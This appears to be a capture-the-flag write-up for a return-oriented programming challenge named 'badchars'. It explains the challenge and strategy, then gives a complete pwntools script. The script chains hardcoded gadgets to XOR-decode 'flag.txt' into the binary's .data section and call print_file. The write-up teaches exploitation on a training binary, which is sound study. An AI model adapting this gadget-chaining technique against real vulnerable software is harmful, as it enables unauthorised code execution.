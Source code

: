 # Challenge Theory
This is a rop challenge, but the characters, "x", "g", "a", and "." will be replaced.
However, there is still a "print_file" function that will print out a file.
# Solution
The attacker needs to supply a string argument to the "print_file" function.
They also need to bypass the bad characters.
Bypassing the bad characters is easy with an included xor gadget included in the binary.
## Exploit Strategy
```
move xor'd flag into .data section of binary
xor flag to get original flag name
supply the address of the flag string as an argument to print_file
call print_file
```
## Solution Script
```python
#!/usr/bin/python3
import pwn
import sys
binary = "badchars"
pwn.context.binary = binary
pwn.context.encoding = "latin"

'''
for whatever reason, if the value is not 601030 the flag will not decode itself
it will be:
flag.tzt
not
flag.txt
'''

write_location = pwn.p64(0x601030)
write_location_value = 0x601030
bstring_flag = b"flag.txt"
bstring_flag_xor = pwn.xor(bstring_flag, 2)
gadget_pop_r12_r13_r14_r15 = pwn.p64(0x40069c)
gadget_mov_r13_r12 = pwn.p64(0x400634)
gadget_pop_r14_r15 = pwn.p64(0x4006a0)
gadget_xor_r15_r14 = pwn.p64(0x400628)
gadget_pop_rdi = pwn.p64(0x4006a3)
gadget_print_file = pwn.p64(0x400510)

combo_gadget_xor_flag = b""
for x in range(8):
    calculated_memory = write_location_value + x 
    combo_gadget_xor_flag += gadget_pop_r14_r15 + pwn.p64(2) + pwn.p64(calculated_memory) + gadget_xor_r15_r14

padding = 40
payload = pwn.flat(
    b"A"*padding,
    gadget_pop_r12_r13_r14_r15,
    bstring_flag_xor,
    write_location,
    0x00,
    0x00,
    gadget_mov_r13_r12,
    combo_gadget_xor_flag,
    gadget_pop_rdi,
    write_location,
    gadget_print_file
)

if ("input" in sys.argv):
    with open("input", "wb") as io:
        io.write(payload)

if ("log" in sys.argv):
    pwn.context.log_level = "debug"

with pwn.process(binary) as io:
    pwn.info(io.readrepeat(1))
    io.send(payload)

    if ("interactive" in sys.argv):
        io.interactive()

    if ("output" in sys.argv):
        pwn.info(io.readrepeat(1))
```